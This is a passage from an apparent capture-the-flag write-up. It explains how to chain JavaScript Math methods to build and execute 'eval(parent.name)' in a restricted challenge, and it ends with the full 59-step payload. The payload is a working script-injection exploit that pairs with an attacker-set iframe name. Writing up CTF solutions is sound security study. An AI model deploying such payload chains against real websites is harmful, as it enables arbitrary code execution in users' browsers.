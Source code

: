 @y0d3n introduced a technique: `Math.seeds.splice(Math.imul())`.

This works because the return value of `Math.imul()` is 0, and `splice(0)` means "remove data after(and include) the first element." Therefore, the entire array is cleared.

### Get an empty string

Previously, I used a more convoluted method to generate an empty string. Later, I discovered that `Math.random.name` could yield an empty string.

This is due to this part:

``` js
Math.random = function () {
  if (!this.seeds) {
    this.seeds = [0.62536, 0.458483, 0.544523, 0.323421, 0.775465]
    next = this.seeds[new Date().getTime() % this.seeds.length]
  }
  next = next * 1103515245 + 12345
  return (next / 65536) % 32767
}
```

Notice there's no name after `function`, making it an anonymous function. So, we're assigning an anonymous function to `Math.random`, hence `Math.random.name` becomes an empty string.

### Obtaining fixed numbers

I previously used built-in constants like `Math.PI` to obtain fixed numbers. Later, I learned from @Astrid that we can use forms like `STRING.length.valueOf()` to get numbers.

For example, `Math.isPrototypeOf.name.length.valueOf()` would yield 13. Using this method, we can quickly obtain a fixed number.

Once we have a fixed number, we can find our desired number with fewer steps, and @Astrid even wrote code to find the shortest path.

### Final solution

The resulting payload is composed of 59 operations and executes `eval(parent.name)`(this requires collaboration with the previously mentioned iframe to run).

```
Math.imul,Math.seeds.splice,Math.exp.name.at,Math.seeds.push,Math.LN2.valueOf,Math.abs.name.constructor.prototype.valueOf.name.at,Math.seeds.push,Math.atan.name.at,Math.seeds.push,Math.ceil.name.at,Math.seeds.push,Math.isPrototypeOf.name.length.valueOf,Math.log2,Math.exp,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.LN2.valueOf,Math.pow.name.at,Math.seeds.push,Math.abs.name.constructor.fromCharCode.name.at,Math.seeds.push,Math.abs.name.constructor.fromCharCode.name.at,Math.seeds.push,Math.abs.name.constructor.prototype.normalize.name.at,Math.seeds.push,Math.LN2.valueOf,Math.abs.name.constructor.prototype.normalize.name.at,Math.seeds.push,Math.abs.name.constructor.prototype.codePointAt.name.at,Math.seeds.push,Math.PI.valueOf,Math.exp,Math.acosh,Math.exp,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.LN2.valueOf,Math.abs.name.constructor.prototype.normalize.name.at,Math.seeds.push,Math.LN2.valueOf,Math.abs.name.at,Math.seeds.push,Math.LN2.valueOf,Math.max.name.at,Math.seeds.push,Math.LN2.valueOf,Math.exp.name.at,Math.seeds.push,Math.asinh,Math.log2,Math.tan,Math.cosh,Math.floor,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.random.name.valueOf,Math.seeds.join,Math.abs.constructor,Math.abs.constructor.prototype.call.call
```
